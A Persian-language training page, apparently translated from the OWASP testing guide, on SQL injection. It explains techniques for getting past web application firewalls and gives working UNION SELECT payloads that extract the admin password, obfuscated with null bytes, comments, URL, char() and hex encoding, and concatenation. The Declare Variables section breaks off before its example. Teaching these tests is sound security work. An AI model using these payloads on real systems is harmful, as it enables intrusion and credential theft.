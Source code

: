 # بررسی SQL Injection

در این بخش از دوره آموزشی OWASP-WSTG به هفتمین بخش از استاندارد WSTG با شناسه WSTG-INPV-05 می پردازیم که مربوط به بررسی SQL Injection می باشد. لازم به ذکر است با توجه به طولانی بودن مبحث تزریق SQL، این بخش از استاندارد OWASP در چندین قسمت قرار داده می شود.

### بررسی Automated Exploitation

بسیاری از شرایط و تکنیک‌های ارائه‌شده در اینجا را می‌توان به صورت خودکار و با استفاده از برخی ابزارها انجام داد. یکی از ابزارهای کاربردی در حوزه بررسی و اکسپلویت آسیب پذیری SQL Injection، ابزار SQLMap می باشد. در مقاله زیر، اطلاعاتی در مورد نحوه انجام یک بررسی خودکار با استفاده از SQLMapبیان شده است.

https://wiki.owasp.org/index.php/Automated_Audit_using_SQLMap


### بررسی SQL Injection Signature Evasion Techniques

این تکنیک‌ها برای دور زدن سیستم‌های دفاعی مانند فایروال‌های نرم‌افزاری وب (WAF)‏ یا سیستم‌های پیش‌گیری از نفوذ (‏IPS) مورد استفاده قرار می‌گیرند که در ادامه به برخی از آن‌ها اشاره شده است. البته شما می‌توانید جهت مطالعه بیشتر به لینک زیر نیز مراجعه نمایید:

https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF

### روش Whitespace

یکی از روش های عبور از سیستم های امنیتی، کاهش فضا یا اضافه کردن فضاهایی است که بر دستورات SQL تاثیر نخواهند گذاشت.
```sql
or 'a'='a'
or 'a'  =  'a'
```
نمونه ای دیگر، اضافه کردن کاراکتر خاص مانند خط جدید یا tab است که اجرای دستورات SQL را تغییر نخواهد داد. برای مثال:


```sql
or
'a'=
        'a'
```


### روش Null Bytes

از Null Bytes (%00)‏ قبل از هر کاراکتری که برنامه (یا سیستم فیلترینگ برنامه) آن را مسدود می‌کند استفاده کنید.

برای مثال، اگر مهاجم قصد تزریق SQL زیر را تزریق داشته باشد:
```sql
' UNION SELECT password FROM Users WHERE username='admin'--
```
اضافه کردن Null Bytes در آن به صورت زیر خواهد بود:
```sql
%00' UNION SELECT password FROM Users WHERE username='admin'--
```
یا حتی به شکل زیر میتوان استفاده کرد:
```sql
' UN%00ION SE%00LE%00CT password FR%00OM U%00ser%00s W%00H%00E%00RE username='admin'%00-%00-
```
مورد بالا درصورتی استفاده میشود که WAF کلمات ورودی را پایش و عبارات دستوری SQL را درصورت مشاهده، حذف میکند.

### روش SQL Comments

اضافه کردن Inline Comment ها درSQL نیز می‌تواند به معتبر ماندن دستورات SQL و دور زدن فیلتر تزریق SQL کمک کند. این تزریق SQL زیر را به عنوان مثال در نظر بگیرید:
```sql
' UNION SELECT password FROM Users WHERE name='admin'--
```

اضافه کردن Inline Comment ها در آن به صورت زیر خواهد بود:
```sql
'/**/UNION/**/SELECT/**/password/**/FROM/**/Users/**/WHERE/**/name/**/LIKE/**/ 'admin'--
' /**/UNI/**/ON/**/SE/**/LECT/**/password/**/FROM/**/Users/**/WHE/**/RE/**/name/**/LIKE /**/ 'admin'--
```
## روش #URL Encoding

روش دیگری که از آن می‌توان برای عبور از سیستم‌های امنیتی بهره برد، استفاده از کدگذاری URL برای کدگذاری دستورات SQL است.
```sql
' UNION SELECT password FROM Users WHERE name='admin'--
```
کدگذاری URL برای تزریق SQL به شکل زیر خواهد بود:
```sql
%27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--
```
### روش Character Encoding

از تابع char() می‌توان برای جایگزین کردن کاراکترها استفاده کرد. به عنوان مثال، char(114,111,111,116) به معنی root است.
```sql
' UNION SELECT password FROM Users WHERE name='root'--
```

پس از اعمال char() تزریق SQL به شکل زیر خواهد بود:
```sql
' UNION SELECT password FROM Users WHERE name=char(114,111,111,116)--
```
### روش String Concatenation

متد Concatenation یا الحاق، کلمات کلیدی SQL را شکسته (به دو یا چند قسمت تقسیم نموده) و می‌تواند منجر به عبور از مکانزیم های امنیتی شود. Syntax الحاق براساس پایگاه‌داده متفاوت خواهد بود. پایگاه‌داده MSSQL را به عنوان مثال در نظر بگیرید.
```sql
SELECT 1
```
عبارت SQL ساده را می توان به صورت زیر با استفاده از الحاق تغییر داد.
```sql
EXEC('SEL' + 'ECT 1')
```
### روش Hex Encoding

تکنیک کدگذاری Hex از کدگذاری Hexadecimal برای جایگزین کردن دستور SQL اصلی استفاده می‌کند. برای مثال عبارت root می‌تواند به صورت 726F6F74 نمایش داده شود.

```sql
Select user from users where name = 'root'
```

عبارت SQL با استفاده از مقدار HEX به صورت زیر خواهد بود:
```sql
Select user from users where name = 726F6F74
```
یا
```sql
Select user from users where name = unhex( '726F6F74')
```

### روش Declare Variables

روش دیگری که می توان از آن استفاده نمود، استفاده از Declare است. با استفاده Declare شما می توانید دستورات تزریق SQL خود را تعریف و اجرا نمایید.
برای مثال، عبارت تزریق SQL زیر را در نظر بگیرید:

عبارت SQL خود را در متغیر SQLivar تعریف کنید:
Alternative Expression
Remediation

برای ایمن کردن برنامه از آسیب‌پذیری‌های تزریقSQL، می‌توانید به CheatSheet پیش‌گیری از تزریق SQL مراجعه کنید:

cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
cheatsheetseries.owasp.org/cheatsheets/Database_Security_Cheat_Sheet.html
cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
